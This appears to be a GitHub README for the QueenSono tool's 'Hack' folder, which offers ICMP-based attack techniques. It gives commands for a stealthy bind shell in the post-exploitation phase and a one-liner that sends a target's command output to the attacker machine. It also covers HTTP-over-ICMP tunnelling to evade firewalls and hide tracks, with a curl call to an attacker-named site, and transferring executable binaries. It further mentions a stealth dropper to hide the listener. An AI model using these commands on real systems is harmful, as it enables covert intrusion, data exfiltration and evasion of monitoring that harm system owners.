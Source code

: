 # Hack

<p align="center"><sup>🧞 "All scripts are there for inspiration and are probably not stable. If you see a good use case and need a more reliable solution, please open an issue"</sup></p>

Some fun things using `QueenSono`
- [Bind Shell](#bind-shell)
  - [One-liner redirect command output](#one-liner-redirect-command-output)
- [HTTP over ICMP tunneling](#http-over-icmp-tunneling)
- [Send binary file](#send-binary-file)

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [fileless-xec](https://github.com/ariary/fileless-xec) repo. You could stealthy execute a remote binary on local machine using ICMP to retrieve its content*

### One-liner redirect command output

Useful if you can't spawn a shell and thus don't have output for command. You could redirect the output to your attacker machine:
```
export CMD=$([cmd]);qssender send "$CMD" -d 1 -l $LISTEN -r $REMOTE -s 100 -N
```

## HTTP over ICMP tunneling

For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 
* Access internal webapp (in this case, put the `qsproxy` in the target machine and `qscurl` in the attacker machine)

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```
1 & 4 are using icmp protocol
2 & 3 are using http protocol

*> On the attacker machine:* Launch the proxy
```
./qsproxy.sh <ip_listening>
```

*> On the target machine:* Order a curl request to be performed by attacker machine
```
# before modify qscurl.sh with according LISTEN and REMOTE addresses
./qscurl.sh http://myawesomeattackersite.com -H \"toto:titi\"
```

## Send binary file

*It is also applicable for all non-human readable files.*

Launch your listener on receiver machine:
```
qsreceiver receive -l 0.0.0.0 -f [binary64] && cat [binary64] | base 64 -d > [binary] && chmod +x [binary]
```

On sender machine, encode binary file, send it, remove temporary file:
```bash
cat [binary] | base64 > tmpBinary64
qssender send file -d 1 -l 0.0.0.0 -r [receiver_ip] -s 50000 tmpBinary64 # It is recommanded to use -s 50000 but you could put another value
rm tmpBinary64
```

        
        
